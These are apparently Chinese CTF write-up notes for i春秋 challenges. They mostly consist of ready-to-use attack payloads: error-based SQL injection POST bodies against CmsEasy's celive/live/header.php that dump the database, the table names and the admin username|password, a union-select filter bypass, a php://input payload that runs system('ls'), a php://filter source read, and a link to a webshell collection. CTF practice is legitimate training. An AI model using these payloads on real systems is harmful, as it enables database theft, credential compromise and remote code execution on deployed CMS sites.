 
## YeserCMS（i春秋）

https://www.cnblogs.com/RenoStudio/p/10541876.html

dirsearch 扫描，python3 dirsearch.py -u 链接 -e *

发现 /amin, /falg.php

cmseasy 漏洞

构造url：http://57f208a0b1164a51a627a8c5645433ee0a4fbc4fc36a4159.changame.ichunqiu.com//celive/live/header.php

1、试验--暴库

post：xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(database())) ),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

2、拿表

post:

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx',(UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(table_name) from information_schema.tables where table_schema=database() ),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

 3、爆管理员账号密码

这里就不爆用户名字段名和密码字段名了，其实在这个站中就是username和password

xajax=Postdata&xajaxargs[0]=<xjxquery><q>detail=xxxxxx', (UpdateXML(1,CONCAT(0x5b,mid((SELECT/**/GROUP_CONCAT(concat(username,'|',password)) from yesercms_user),1,32),0x5d),1)),NULL,NULL,NULL,NULL,NULL,NULL)-- </q></xjxquery>

拿到用户名|密码，登录后台，文件读取，抓包读post参数../../flag.php

## SQL

sql注入题，发现关键字被过滤，用<>绕过过滤

?id=1+u<>nion+s<>elect 1,group_concat(flAg_T5ZNdrm),3 from info

### include（i春秋）

文件包含漏洞

搜索一下`allow_url_include `看看是否打开：

php://input协议，使用post传递参数<?php system("ls");?>

使用`php://filter/read=convert.base64-encode/resource=dle345aae.php`读取文件内容：

## 123（i春秋）

一句话木马大全

https://www.cnblogs.com/Rcsec/p/9426301.html
